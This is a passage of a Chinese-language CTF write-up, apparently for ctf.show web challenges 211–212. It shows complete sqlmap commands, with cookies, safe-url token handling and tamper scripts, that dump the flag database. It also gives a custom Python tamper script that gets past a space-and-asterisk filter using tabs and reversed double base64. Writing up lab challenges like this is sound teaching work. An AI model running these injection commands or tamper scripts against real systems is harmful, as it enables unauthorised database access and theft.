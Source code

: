 在上一题的基础上过滤了空格，sqlmap可以同时使用多个绕过脚本，用逗号`,`隔开，例如--tamper space2comment.py,show-web210.py

在上一题的payload的tamper后使用注释绕过空格的脚本，以及web210的脚本。先使用`space2comment.py`拿到注释绕过空格的payload，再使用`show-web210.py`拿到反转加密的payload，拿到最终的payload

```bash
# 爆数据库 ctfshow_web
sqlmap -u "https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py,show-web210.py --dbs 
# 爆表 ctfshow_flavia
sqlmap -u "https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py,show-web210.py --dbs -D ctfshow_web --tables
# 爆字段  ctfshow_flagxxa
sqlmap -u "https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py,show-web210.py --dbs -D ctfshow_web --tables -T ctfshow_flavia --columns
# 爆金币 <blank>
sqlmap -u "https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://6f592750-f133-43b3-8313-e4fac6493910.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper space2comment.py,show-web210.py --dbs -D ctfshow_web --tables -T ctfshow_flavia --columns -C ctfshow_flagxxa --dump
```

## web 212

```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ |\*/', $str);
}
```

相比上题，又过滤了星号`*`，注释绕过空格用不了了。在前面做题时，已知`%0a,%0b,%0c,%0d`都可以绕过空格。拿大佬的脚本，整合了绕过空格和编码的功能，写到show-web212.py里待会使用

```python
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
import base64
__priority__ = PRIORITY.LOW
 
def dependencies():
    pass

# 主要功能部分
def tamper(payload, **kwargs):
    retVal = payload
    if payload:
        retVal = retVal.replace(' ',chr(0x09))
        retVal = base64.b64encode(base64.b64encode(retVal[::-1].encode())[::-1]).decode()
 
    return retVal
```
